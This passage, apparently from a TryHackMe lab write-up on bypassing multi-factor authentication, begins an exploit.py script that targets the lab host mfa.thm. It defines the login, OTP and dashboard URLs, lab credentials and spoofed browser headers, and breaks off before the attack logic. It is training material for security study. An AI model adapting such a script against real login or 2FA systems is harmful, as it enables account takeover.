 ![Texto

Descripción generada automáticamente]![](img/THM-mof/Aspose.Words.585a0df3-49a0-4687-b142-e2a834135ea8.013.png)

We can create a script named as exploit.py and run it:

import requests

\# Define the URLs for the login, 2FA process, and dashboard

login\_url = 'http://mfa.thm/labs/third/'

otp\_url = 'http://mfa.thm/labs/third/mfa'

dashboard\_url = 'http://mfa.thm/labs/third/dashboard'

\# Define login credentials

credentials = {

`    `'email': 'thm@mail.thm',

`    `'password': 'test123'

}

\# Define the headers to mimic a real browser

headers = {

`    `'User-Agent': 'Mozilla/5.0 (X11; Linux aarch64; rv:102.0) Gecko/20100101 Firefox/102.0',

`    `'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,\*/\*;q=0.8',

`    `'Accept-Language': 'en-US,en;q=0.5',

`    `'Accept-Encoding': 'gzip, deflate',

`    `'Content-Type': 'application/x-www-form-urlencoded',

`    `'Origin': 'http://mfa.thm',

`    `'Connection': 'close',

`    `'Referer': 'http://mfa.thm/labs/third/mfa',

`    `'Upgrade-Insecure-Requests': '1'

}

\# Function to check if the response contains the login page

def is\_login\_successful(response):
